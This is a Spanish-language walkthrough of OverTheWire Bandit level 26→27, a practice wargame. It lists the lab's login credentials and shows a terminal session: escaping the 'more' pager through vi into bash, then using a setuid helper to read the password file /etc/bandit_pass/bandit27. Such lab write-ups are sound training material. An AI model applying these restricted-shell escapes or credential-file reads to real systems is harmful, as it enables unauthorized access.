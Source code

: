 # Bandit Level 26 → Level 27

## Objetivo
¡Buen trabajo consiguiendo una concha! ¡Ahora date prisa y toma la contraseña de bandit27!

## Datos de acceso al nivel
* Servidor: ssh bandit26@bandit.labs.overthewire.org
* Usuario: bandit26
* Contraseña: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solución
``` bash
--More--(66%) 
v
"~/text.txt" [readonly] 6L, 258B 
:set shell=/bin/bash 
:shell [No write since last change] 
bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id 
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 'YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS' 
bandit26@bandit:~$ exit 
:qa! 
q
```

## Notas Adicionales
* Ninguna.

## Referencias
* [Ninguna]


Fecha: 28/02/2023.